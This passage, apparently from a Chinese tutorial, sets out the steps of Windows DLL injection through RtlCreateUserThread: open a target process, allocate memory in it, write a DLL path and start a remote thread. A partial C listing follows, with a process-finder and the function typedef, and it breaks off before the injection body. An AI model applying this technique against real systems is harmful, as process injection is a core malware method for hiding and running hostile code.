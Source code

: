 

## 实现步骤

- 获取系统上现有进程的句柄或创建新的牺牲进程
  - OpenProcess() 打开进程
  - CreateProcess() 创建新进程
  - CreateProcessAsUser() 创建新进程及其主线程
- 在目标进程中申请内存空间 VirtualAllocEx VirtualAllocEx()
- 在目标进程中写入DLL完整路径 WriteProcessMemory()
- 从Ntdll中获取RtlCreateUserThread地址，从Kernel32中获取LoadLibraryA/W地址
- 调用RtlCreateUserThread创建远程线程 RtlCreateUserThread()





```c
#include <Windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <iostream>
#include <string>

using namespace std;

//t通过进程名获取进程PID
DWORD findPidByName(const char* pname) //获得pid函数，对上面的查找进行改进
{
    HANDLE h;
    PROCESSENTRY32 procSnapshot;
    h = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    procSnapshot.dwSize = sizeof(PROCESSENTRY32);

    do
    {
        if (!_stricmp(procSnapshot.szExeFile, pname))
        {
            DWORD pid = procSnapshot.th32ProcessID;
            CloseHandle(h);
#ifdef _DEBUG
            printf(("[+]进程地址: %ld\n"), pid);
#endif
            return pid;
        }
    } while (Process32Next(h, &procSnapshot));

    CloseHandle(h);
    return 0;
}

typedef DWORD(WINAPI* pRtlCreateUserThread)(    //函数申明
    IN HANDLE                     ProcessHandle,
    IN PSECURITY_DESCRIPTOR     SecurityDescriptor,
    IN BOOL                     CreateSuspended,
    IN ULONG                    StackZeroBits,
    IN OUT PULONG                StackReserved,
    IN OUT PULONG                StackCommit,
    IN LPVOID                    StartAddress,
    IN LPVOID                    StartParameter,
    OUT HANDLE                     ThreadHandle,
    OUT LPVOID                    ClientID
    );

DWORD RtlCreateUserThread(LPCSTR pszLibFile, DWORD dwProcessId)
{
```